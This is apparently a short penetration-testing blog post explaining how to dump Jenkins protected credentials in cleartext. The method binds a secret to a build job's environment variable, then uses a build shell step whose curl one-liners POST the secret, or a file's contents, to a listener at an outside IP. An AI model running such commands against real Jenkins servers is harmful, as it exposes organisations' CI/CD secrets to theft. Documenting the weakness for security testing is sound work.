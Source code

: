 ```yaml
---
layout: post
title: Dumping Jenkins credentials
excerpt_separator: <!--more-->
---
```


A very dumb way to access Jenkins protected credentials which I have not found documented anywhere.


<!--more-->

You will need:

- A user logged in the web panel who can use a credential in a Jenkins task

- A listener in an IP address reachable from the Jenkins master node. Perfect candidates are Jenkins slaves or the master node.

I found this technique very useful for a project where some credentials were not correctly decrypted using typical tools such as [https://github.com/hoto/jenkins-credentials-decryptor](https://github.com/hoto/jenkins-credentials-decryptor) which extract these values from the files credentials.xml, master.key and hudson.util.Secret.


### Step 1: Use secret text(s) or file (s)

Create a task and include the credential as a variable named "TEST" checking "Use secret text(s) or file (s)" in the Environment section:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_1.png)


### Step 2: Execute command line (shell) in Build Steps

Next, check "Execute command line (shell)" in Build Steps section. The trick is creating a POST request to the IP address reachable from the node and using the credential (an environmental variable) as body. Here you have two options, if the credential is a string you can use something like this:

```
whoami; ip a; curl http://IP_ADDRESS:8081/ --data-binary '{"body": "'"$TEST"'."}'
```

If the credential is a file you can create a second dummy environmental variable like this:

```
whoami; ip a; TEST2=$(cat "$TEST"); curl http://IP_ADDRESS:8081/ --data-binary '{"body": "'"$TEST2"'."}'
```

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_3.png)

The "whoami; ip a;" part is not necessary but you can use something like this to check the task is executed correctly even if step 3 fails. And you can use the port you prefer and not 8081.

In this example the Jenkins master node is a Linux system, but I guess something similar can be used in Windows using Powershell :).


### Step 3: Set up a listener and (hopefully) receive the credential in cleartext

Finally, set up a listener and run the task, you should get the credential: 

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_3.png)
